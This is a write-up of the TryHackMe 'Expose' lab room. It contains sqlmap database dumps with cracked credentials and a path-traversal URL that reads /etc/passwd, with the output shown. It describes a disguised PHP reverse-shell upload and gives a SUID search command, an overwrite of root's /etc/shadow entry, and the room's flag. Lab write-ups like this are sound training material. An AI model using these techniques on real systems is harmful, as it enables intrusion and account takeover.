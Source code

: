 ```yaml
---
title: Expose
draft: 
tags:
  - thm
---
```

These are some rough notes I took when in the Expose TryHackMe room. These are note's done after the fact.
# Port Scanning
`nmap -p- <IP>`

Then use -sV on the services found.


```
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+

[11:47:01] [INFO] table 'expose.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.69.234/dump/expose/user.csv'
[11:47:01] [INFO] fetching columns for table 'config' in database 'expose'
[11:47:02] [INFO] retrieved: 'id'
[11:47:02] [INFO] retrieved: 'int'
[11:47:02] [INFO] retrieved: 'url'
[11:47:02] [INFO] retrieved: 'text'
[11:47:03] [INFO] retrieved: 'password'
[11:47:03] [INFO] retrieved: 'text'
[11:47:03] [INFO] fetching entries for table 'config' in database 'expose'
[11:47:03] [INFO] retrieved: '/file1010111/index.php'
[11:47:04] [INFO] retrieved: '1'
[11:47:04] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[11:47:04] [INFO] retrieved: '/upload-cv00101011/index.php'
[11:47:04] [INFO] retrieved: '3'
[11:47:05] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[11:47:05] [INFO] recognized possible password hashes in column 'password'

```



```
69c66901194a6486176e81f5945b8929
easytohack
```

After using that password on the /file1010111/index.php page, we can there use LFI
```
http://10.10.69.234:1337/file1010111/index.php?file=/../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```

Now on the 
```
/upload-cv00101011/index.php
```
page we can login with the `zeamish` user

this page allows file uploads

We are able to upload a php reverse shell by naming it .png and then capturing the POST in burpsuite, and changing the name back to .php

we are able to use netcat to listen to the port specified, then navigate to the directory where the file was uploaded to thanks to the source code


Navigating to the user directories, we find

```
SSH CREDS
zeamkish
easytohack@123
```

Now we can run 

`find / -perm -04000 -type f -ls 2>/dev/null`

to find things with a SUID bit set

we find nano

nano can edit /etc/shadow file

```
$ openssl passwd -1 -salt root 1234 
$1$root$.fAWE/htZAqQge.bvM16O/
```

add this to the /etc/shadow for root

```
THM{ROOT_EXPOSED_1001}
```

